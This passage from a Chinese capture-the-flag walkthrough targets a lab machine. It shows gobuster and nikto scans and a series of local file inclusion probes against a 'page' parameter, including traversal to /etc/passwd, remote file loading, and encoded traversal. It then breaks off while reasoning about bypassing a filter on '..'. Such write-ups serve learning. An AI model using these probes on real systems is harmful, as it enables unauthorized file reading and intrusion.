 > 
`1.# -t 指定线程 -x 添加后缀扩展名 -k 禁用ssl`
`2.gobuster dir -u http://192.168.151.94:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .html,.php,.zip -k &gt; gobuster.txt`


##### 漏洞探测-nikto扫描

同时试试扫描器

> 
`1.nikto -h http://192.168.151.94:80`


没发现什么大问题<img alt="" height="256" src="https://img-blog.csdnimg.cn/e5d80eb776f145be8cab690944d64aa5.png" width="1080"/>

##### 文章信息查看

有时候文章内部也具有一些提示滴<br/> 戳了一下`about`发现目录发现变化，出现了传参

### 漏洞利用-getwebshell

#### LFI测试

看见传参我可兴奋了，首先尝试相对路径的文件读取

> 
`1.http://192.168.151.94/index.php?page=about/../../../../etc/passwd`


`Not so easy brother!`没有这么简单，这是提示？还是嘲讽/(ㄒoㄒ)/

那么思路应该是正确的<br/> 尝试一下相对路径文件读取

> 
`1.http://192.168.151.94/index.php?page=/etc/passwd`


`File does not exist`文件不存在说明应该相对路径？

尝试远程文件加载

> 
`1.http://192.168.151.94/index.php?page=http://www.baidu.com`


`File does not exist`

> 
`1.http://192.168.151.94/index.php?page=../`
`2.http://192.168.151.94/index.php?page=/../`
`3.http://192.168.151.94/index.php?page=././././`
`4.http://192.168.151.94/index.php?page=%2F..%2F`


尝试了各种，发现的问题是好像对`..`进行了过滤捏<br/>`.`好像没有`url`编码

#### .过滤绕过

推测后端`php`脚本可能存在类似正则匹配，如果存在`..`则会执行
